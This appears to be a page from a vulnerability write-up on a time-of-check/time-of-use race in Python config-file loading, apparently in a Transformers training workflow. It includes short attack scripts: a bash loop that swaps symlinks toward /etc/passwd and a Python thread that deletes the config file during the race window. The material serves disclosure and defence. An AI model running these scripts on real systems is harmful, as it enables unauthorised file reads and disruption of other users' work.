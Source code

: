 **Classic TOCTOU Pattern**:
```python
# Time-of-Check
if os.path.exists(json_file):
    # RACE WINDOW HERE - File can change!
    # Time-of-Use
    open_file = io.open
```

**The Problem**:
- Non-atomic operation (check and open are separate)
- No locking mechanism
- Susceptible to filesystem race conditions

---

## 🎭 EXPLOITATION SCENARIOS

### **Scenario 1: Symlink Attack**

**Attack Vector**: Malicious file replacement during race window

```bash
# Attacker Terminal 1
while true; do
    ln -sf /path/to/malicious.json /tmp/config.json
    ln -sf /etc/passwd /tmp/config.json
done

# Victim runs Transformers training
python train.py --config /tmp/config.json
```

**Impact**:
- Read arbitrary files (if symlink to sensitive file)
- Load malicious configuration
- Potential code execution via deserialization

### **Scenario 2: File Deletion Race**

**Attack Vector**: Delete file between check and open

```python
# Attacker script
import os
import time
from threading import Thread

def race_exploit():
    target = "/tmp/training_config.json"
    while True:
        if os.path.exists(target):
            os.remove(target)  # Delete during race window
        time.sleep(0.0001)

# Run in background while victim trains model
Thread(target=race_exploit, daemon=True).start()
```
